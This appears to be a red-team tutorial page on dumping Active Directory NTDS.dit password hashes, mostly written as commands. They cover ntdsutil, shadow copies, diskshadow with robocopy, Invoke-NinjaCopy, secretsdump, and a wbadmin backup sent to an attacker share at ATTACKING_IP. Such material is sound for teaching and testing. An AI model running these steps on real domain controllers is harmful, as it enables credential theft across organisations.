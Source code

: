 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS secrets

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver or golden tickets](../../kerberos/forged-tickets.md).

## Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](sam-and-lsa-secrets.md), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

### Volume Shadow Copy (VSSAdmin)

VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

{% hint style="info" %}
This attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the `-use-vss` option. Additionaly, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify on which remote command execution method to rely on for the process.
{% endhint %}

### Disk shadow + Robocopy
We can achieve copy of NTDS file by using diskshadow in script mode.

copyScript.txt
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

We then run the script and use robocopy to retreive the ntds.dit file
```
#Run the script
diskshadow /s copyScript.txt

#Exfiltrate ntds.dit of the new E: drive
robocopy /b E:\Windows\ntds . ntds.dit

#Get the SYSTEM hive for the bootKey
reg save hklm\system c:\temp\system

```

### Wbadmin Utility
Wbadmin is an elevated command prompt that allows administrators or backup operators to backup and restores an operating system (OS), volume, files, folders, or applications - [techtarget](https://www.techtarget.com/searchwindowsserver/definition/wbadmin)
However, Wbadmin required the remote shared folder to be formated with NTFS. So we have to mount an NTFS partition to retrieve the backup on our remote Linux server. The Impacket smbserver script does not handle this file system well, so we have to go directly through the smb deamon.  

On our Linux, we start by mounting an NTFS partition
```
#Create 2Mb ntfs file
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

#Run losetup
sudo losetup -fP ntfs.disk
losetup -a

#Replace loop0 by the losetup -a output
sudo mkfs.ntfs /dev/loop0

#mount it
sudo mount /dev/loop0 smbFolder/
```  
  
We then have to edit the `/etc/samba/smb.conf` file by adding a new share
```
# Windows clients look for this share name as a source of downloadable
# printer drivers
[print$]
   comment = Printer Drivers
   path = /var/lib/samba/printers
   browseable = yes
   read only = yes
   guest ok = no
[myNewShare]
   comment = For NTDS dump
   path = /home/v4resk/Documents/RedTeam/CTF/HTB/Blackfield/smbFolder
   browseable = yes
   read only = no
   guest ok = yes
```

Restart smbd
```
sudo systemctl restart smbd 
```

We can now, on the Windows target, make a backup to our remote shared folder.
```
#Backup
wbadmin start backup -quiet -backuptarget:\\ATTACKING_IP\myNewShare -include:c:\windows\ntds

#Retrieve version of the backup
wbadmin get versions

#Extract ntds.dit of the backup (We can set 'recoverytarget' to a remote share by mounting it with net use)
wbadmin start recovery -quiet -version:03/26/2023-20:38 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\temp -notrestoreacl

#Get the SYSTEM hive for the bootKey
reg save hklm\system c:\temp\system.save

``` 


### NTFS structure parsing

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. **This technique is stealthier than the others**.

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```

## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```
